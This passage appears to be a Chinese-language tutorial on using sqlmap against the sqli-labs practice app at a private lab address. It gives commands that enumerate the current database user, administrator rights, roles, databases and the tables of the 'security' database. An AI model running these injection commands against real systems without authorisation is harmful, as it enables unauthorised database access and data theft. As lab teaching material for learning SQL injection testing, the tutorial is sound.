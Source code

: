 查看当前数据库用户  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
```

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUz4vNy5vwPxe0AXhZFmPRcVBiaoRx0XibMk1HziafqcAyMicyNFnjMJEuoAQ/640?wx_fmt=png)  

判断当前用户是否有管理权限  

查看当前账户是否为数据库管理员账户

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba  #判断当前用户是否有管理员权限
```

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzB4mibTlv5DyYicyV3zzeXoibPXSEqnekT6wmqdqQr78MhMSniaIzW8dczQ/640?wx_fmt=png)

列出数据库管理员角色  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles   #列出数据库所有管理员角色
```

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzRnMjVmtF80WxcAZalpUibxbjMVngMucu1Yep8XK5hFvzxZtsXzGsyaw/640?wx_fmt=png)

查看当前数据库  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dbs
```

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzAic4475RMzb6AISVoAlAsbjTRgfOpRPWzjdtnhjQJemOR8foSLOWQwQ/640?wx_fmt=png)  

查看当前数据库  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-db #查看当前的数据库
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUz93YG9FJYTZgShkwk2dBrTksfCl8DJIdVlKkhs4EEQwAarQXAp70sicg/640?wx_fmt=png)

查看数据库中所有的表  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUznSG7m0VpA4HmDFGtcmCYOv1Y3o4OyhYQtzc16Pw5o5Bmrapzw1XOlg/640?wx_fmt=png)
